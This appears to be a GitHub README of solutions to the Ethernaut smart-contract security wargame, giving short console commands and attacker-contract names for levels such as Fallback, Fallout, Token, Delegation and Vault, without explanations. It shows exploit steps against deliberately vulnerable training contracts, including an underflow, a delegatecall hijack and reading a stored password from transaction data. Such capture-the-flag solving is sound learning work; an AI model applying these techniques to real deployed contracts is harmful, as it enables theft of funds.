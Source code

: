 # Ethernaut Solutions
Solutions for Ethernaut. (At the moment, there are only the solutions without the explanations)



### Hello Ethernaut
Run on the console
```
contract.authenticate("ethernaut0")
```

### Fallback
Run on the console
```
contract.contribute({value:toWei('0.0001')})
sendTransaction({to: instance, from: player, value: toWei('0.0001')})
contract.withdraw()
```

### Fallout
Run on the console
```
contract.Fal1out()
```

### Coin Flip
deploy [coin-flip/Flipper.sol](coin-flip/Flipper.sol) and execute ```flip()``` 10 times


### Telephone
deploy [telephone/Middleware.sol](telephone/Middleware.sol) and execute ```changeOwner()```


### Token
deploy [token/Underflow.sol](token/Underflow.sol) and execute ```transfer(yourAddressHere)```

### Delegation
Run on the console
```
sendTransaction({to:instance, from:player, data:'0xdd365b8b'})
```

### Force
deploy [force/Forcer.sol](force/Forcer.sol), send some eth, and execute ```send()```

### Vault
Password is in Etherscan > Instance > From > Txn Hash > Input Data
Run on the console
```
contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")
```

### King
deploy [king/BecomeTheKing.sol])(king/BecomeTheKing.sol), and execute ```becomeTheKing()``` with more gas
